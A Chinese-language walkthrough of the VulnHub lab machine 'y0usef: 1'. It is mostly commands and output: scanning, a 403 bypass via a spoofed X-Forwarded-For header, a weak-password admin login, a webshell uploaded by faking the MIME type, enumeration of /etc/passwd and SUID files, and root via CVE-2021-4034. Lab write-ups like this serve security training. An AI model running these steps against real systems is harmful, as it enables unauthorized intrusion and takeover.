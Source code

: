 靶机地址：[y0usef: 1 ~ VulnHub](https://www.vulnhub.com/entry/y0usef-1,624/)
主机发现、端口扫描、服务枚举
```Shell
sudo arp-scan -l
sudo nmap -p- 192.168.1.36
sudo nmap -p22,80 -sV 192.168.1.36
# 22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
# 80/tcp open  http    Apache httpd 2.4.10 ((Ubuntu))
```
访问Web服务，没发现什么特别的地方
指纹收集
```Shell
whatweb http://192.168.1.36
# http://192.168.1.36 [200 OK] Apache[2.4.10], Bootstrap, Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.10 (Ubuntu)], IP[192.168.1.36], JQuery, PHP[5.5.9-1ubuntu4.29], Script, X-Powered-By[PHP/5.5.9-1ubuntu4.29]
```
web路径扫描
```Shell
sudo dirsearch -u http://192.168.1.36
# /adminstration
sudo dirsearch -u http://192.168.1.36/adminstration/
# /adminstration/include/
# /adminstration/logout
# /adminstration/upload
# /adminstration/users

sudo feroxbuster --url http://192.168.1.36
gobuster dir -u http://192.168.1.36 -w /usr/share/seclists/Discovery/Web-Content/directory-list-1.0.txt -x php,jsp,html,js,txt
# 这俩啥都扫不出来
```
访问 `/adminstration` ，响应403，需要尝试ByPass。
最终发现添加标头： `X-Forwarded-For: 127.0.0.1` ，可以绕过403
```Shell
source env/bin/activate
python3 403bypasser.py -u http://192.168.1.36 -d adminstration
cat 192.168.1.36.txt | grep -C 1 "STATUS: 200"
```
是一个登录页面，使用弱口令 `admin : admin` 成功登录
简单观察，发现有上传文件的功能，上传一个木马，返回file not allow。
尝试绕过，先试试修改Mime-Type，改为
```
Content-Type: image/png
```
返回信息变成了
```
file uploadad files/1669727639one.php
```
看起来是上传成功了
尝试访问
```
http://192.168.1.36/adminstration/upload/files/1669727639one.php
```
成功访问到了，再用蚁剑连一下试试
OK没问题
接下来是提权
```Shell
# 查看是否有密码文件编辑权限
ls -l /etc/passwd
# 没有编辑权限

# 用户枚举
cat /etc/passwd | grep /bin/bash
# 3个可能可以利用的用户
# root:x:0:0:root:/root:/bin/bash
# yousef:x:1000:1000:yousef,,,:/home/yousef:/bin/bash
# guest-cpxNn2:x:116:125:Guest,,,:/tmp/guest-cpxNn2:/bin/bash

sudo -l
# sudo用不了
crontab -l
# 没有定时任务
/sbin/getcap -r / 2>/dev/null
# 没有可以利用的特权程序

find / -perm -u=s -type f -user root -executable ! -group root 2>/dev/null -exec ls -l {} \;
# 找到一个或许可用的SUID文件 仔细看看好像不太能利用
# -rwsr-xr-x 1 root lpadmin 13672 Apr 10  2014 /usr/bin/lppasswd

uname -a
# Linux yousef-VirtualBox 3.13.0-24-generic #46-Ubuntu SMP Thu Apr 10 19:08:14 UTC 2014 i686 athlon i686 GNU/Linux
which gcc
# /usr/bin/gcc
```
尝试内核漏洞提权，使用 [[20 CVE#CVE-2021-4034|CVE-2021-4034]]
```Shell
dpkg -l policykit-1
# 0.105-4ubunt
```
成功提权

尝试别的提权方式
```Shell
ls -l /home/
cat /home/user.txt
# c3NoIDogCnVzZXIgOiB5b3VzZWYgCnBhc3MgOiB5b3VzZWYxMjM=
```
解码后为
```
ssh : .user : yousef .pass : yousef123
```
尝试SSH，成功了
```Shell
sudo -l
su su
```
有密码可以直接本地提权
